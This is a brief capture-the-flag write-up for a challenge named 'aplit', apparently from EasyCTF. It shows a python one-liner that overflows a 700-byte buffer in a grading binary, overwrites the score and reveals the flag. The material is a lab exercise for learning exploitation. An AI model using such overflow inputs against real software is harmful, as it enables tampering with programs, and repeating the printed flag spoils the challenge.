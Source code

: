 Description:
```
I suck at AP Lit (what is engwrish). I was able to steal the grader for the AP Lit test from the CollageBored, but it's not helping me do any better. Can you help me?

Source can be found here, and the binary with the actual flag is on the shell server at /problems/aplit.
```
Hint:
```
Oh poop! Forgot to give you my prompt. Here it is: Choose a novel that you hate, and then write an essay about it.
```
This is actually easier than the previous buffer overflow problem. From the source we can see that the buffer is 700 bytes long. It can be filled this way:
```
./aplit $(python -c 'print "A"*700')
```
After few tries we manage to overwrite the score:
```
user6ad18@shell:/problems/aplit$ ./aplit $(python -c 'print "A"*709')
...
According to our analysis, your response received a grade of 65!
Wow, you're an HONOR student! Here's a flag: easyctf{essays_are_too_hard}
```
